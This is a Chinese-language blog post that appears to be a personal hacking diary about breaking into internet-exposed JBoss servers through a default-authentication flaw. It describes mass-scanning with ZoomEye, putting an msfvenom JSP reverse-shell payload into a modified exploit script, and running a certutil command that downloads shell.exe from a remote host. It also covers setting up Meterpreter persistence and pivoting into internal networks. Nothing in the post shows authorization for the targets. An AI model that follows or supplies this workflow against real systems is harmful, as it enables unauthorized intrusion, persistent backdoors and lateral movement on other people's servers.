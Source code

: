 文章缘起于github上的一个jboss利用代码[https://github.com/yuxiaokui/JBoss-Hack](https://github.com/yuxiaokui/JBoss-Hack)
人家还给了一个简单的UIshell界面 不过，好难用的说这个后面再说
这个漏洞就是JBoss的默认身份验证漏洞，都不用登录的说，直接去网上扫就好了
那么问题来了，原作者写的一句话jsp的后门菜刀连不上，蚁剑不支持jsp，这就尴尬了，不过还好人家代码挺少，只能乖乖修改源码去了。
![](https://github.com/0linlin0/Records/blob/master/images/jb1.png?raw=true)
原作者调用了zoomeye的api，然后构造exp，发送get请求，并验证在这里我们可以修改exp，我们强大的msf可以生成payload，用的是 payload/java/jsp_shell_reverse_tcp ，生成的代码不太多，因为漏洞利用的时候需要将代码url编码后放到get请求里，所以这里就悲催了，尽量压缩代码把。msf心比它提供的UIshell界面好用多了。谁让我java很烂呢:(
生成payload并进行url编码，修改exp，然后运行修改后的脚本

![](https://github.com/0linlin0/Records/blob/master/images/jb2.png)

得到存在漏洞的主机列表

![](https://github.com/0linlin0/Records/blob/master/images/jb3.png)


Msf端设置监听端口，等待回连，访问链接，回连成功


![](https://github.com/0linlin0/Records/blob/master/images/jb4.png)

Yes！拿到了webshell，我就想拿meterpreter，首先得上传payload，所以我又去搜，windows命令行下怎么样下载远程文件，得到了好多结果

[http://www.4hou.com/system/8661.html](http://www.4hou.com/system/8661.html)

[http://www.freebuf.com/articles/system/155147.html](http://www.freebuf.com/articles/system/155147.html) 
[结果3](http://wps2015.org/drops/drops/%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%8415%E7%A7%8D%E6%96%B9%E6%B3%95.html)

嗯。。我想说搜到了这么多，我只用了一个certutil
在webshell上运行这个命令
certutil.exe -urlcache -split -f https：//a.com/shell.exe
[certutil.exe利用](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
嘻嘻嘻，原谅我的懒惰，剩下的好多看不懂。。。所以以后慢慢唉，总会又用到的时候
所以我再vps上搭建了一个web服务，这样就可以啦，我的meterperter上传上去啦！所以我得到更高级的shell啦，而且还可以是长期的!说到这里，又遇到两个问题：
首先是上出啊的payload免杀的问题，还有是持久后门的问题，这一搜，打开了新世界的大门。这里留个坑，以后好好研究这里的内容。因为我比较幸运，目标上没有任何防护，不涉及到免杀，而且meterpreter自带的持久后门run persistence暂时就蛮好用的，虽然官方不推荐了，不过我们先凑活着用，毕竟只是练练手，嘻嘻。
然后就进入到进入内网的问题了，ew人家更新了（http://rootkiter.com/Termite/）看了人家的视频，真的是好好用，我太菜了，一直不成功，是不是Termite只支持正向socks..应该不会吧，所以只能先用着ew了。。。伤心当中。
关于Termite的使用不成功


![](https://github.com/0linlin0/Records/blob/master/images/jb5.png)


上传成功后msf监听端口，等待回连，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb6.png)
